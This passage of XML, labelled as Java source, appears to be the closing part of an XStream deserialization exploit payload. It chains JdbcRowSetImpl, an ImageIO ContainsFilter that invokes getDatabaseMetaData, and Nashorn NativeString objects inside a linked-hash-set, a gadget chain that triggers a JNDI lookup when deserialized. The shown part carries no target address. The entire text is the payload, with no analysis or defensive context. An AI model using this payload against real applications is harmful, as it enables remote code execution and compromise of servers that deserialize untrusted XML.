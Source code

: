 ```java
                            <int>-1</int>
                            <int>-1</int>
                            <int>-1</int>
                            <int>-1</int>
                            <int>-1</int>
                            <int>-1</int>
                          </iMatchColumns>
                          <strMatchColumns>
                            <null/>
                            <null/>
                            <null/>
                            <null/>
                            <null/>
                            <null/>
                            <null/>
                            <null/>
                            <null/>
                            <null/>
                          </strMatchColumns>
                        </default>
                      </com.sun.rowset.JdbcRowSetImpl>
                    </next>
                  </iter>
                  <filter class="javax.imageio.ImageIO$ContainsFilter">
                    <method>
                      <class>com.sun.rowset.JdbcRowSetImpl</class>
                      <name>getDatabaseMetaData</name>
                      <parameter-types/>
                    </method>
                    <name>foo</name>
                  </filter>
                  <next class="string">foo</next>
                </serviceIterator>
                <lock/>
              </cipher>
              <input class="java.lang.ProcessBuilder$NullInputStream"/>
              <ibuffer></ibuffer>
              <done>false</done>
              <ostart>0</ostart>
              <ofinish>0</ofinish>
              <closed>false</closed>
            </is>
            <consumed>false</consumed>
          </dataSource>
          <transferFlavors/>
        </dataHandler>
        <dataLen>0</dataLen>
      </value>
    </jdk.nashorn.internal.objects.NativeString>
    <jdk.nashorn.internal.objects.NativeString reference="../jdk.nashorn.internal.objects.NativeString"/>
  <entry>
    <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
    <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
  </entry>
</linked-hash-set>
```
